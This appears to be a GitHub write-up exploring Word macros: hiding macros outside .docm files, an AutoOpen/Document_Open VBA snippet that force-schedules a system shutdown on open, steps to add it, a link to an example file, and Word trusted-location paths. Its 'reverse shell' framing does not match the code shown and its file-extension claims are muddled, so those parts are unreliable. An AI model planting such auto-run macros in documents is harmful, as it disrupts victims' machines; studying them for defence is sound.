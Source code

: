 ## Researching macros in microsoft word (.docm) documents


### Word extensions for macro enabled/disabled documents
Under normal circumstances, .docm is the default extension for any macros added. However through the developer ribbon, macros can be added without changing the file extension. This greatly increases the risk of a reverse shell running in the background, especially one that tunnels through trusted channels like discord. However, this is saved on the local machine and NOT the file due to Microsoft's security measures.
Here's how!!
1.) Check developer under File -> Options -> Customise Ribboms -> Right box -> Developer
2.) Create a new macro and paste in the script
3.) Save the document

### Example
```vbs
Sub AutoOpen()
'
' AutoOpen Macro
'
'
    CreateObject("Wscript.shell").Run "shutdown -s -f -t 500"
End Sub
 
Sub Document_Open()
    CreateObject("Wscript.shell").Run "shutdown -s -f -t 500"
End Sub
```
Referenced from [Reverse Shell From Word Document (Agis, 2021)](https://github.com/Agisthemantobeat/Reverse-Shell-From-Word-Document)
The above script, when pasted in as a module (macro), opens the shell and schedules a shutdown.
I have created an [example file](https://github.com/MintOcha/Writeups/blob/main/Word%20Macro%20Example.docx) that you can download and try for yourself, with the script above.
I tested it on a docx outside of trusted directory and word protection (editing enabled) which ran without any prompts.

### Word trusted locations
```
C:\Users\[User]\AppData\Roaming\Microsoft\Word\Startup\ 
C:\Users\[User]\AppData\Roaming\Microsoft\Templates\
```

Some locations are deemed as "trusted" locations by word, which means running a word document from there can run macros or activeX without prompt. This could potentially be leveraged by threat actors who could first write a word doc into that location and runit thereby any macros associated. It's however, unlikely for this to be leveraged due to a prerequisite of the attacker already having access

### More possibilities?

Active X is a feature written in the same language as the above macro (vbs), and it allows the user to interact with the document. It can also be used to run macros though it won't make much of a difference. 

Office generally allows interaction between office apps, so perhaps we could do it for excel?
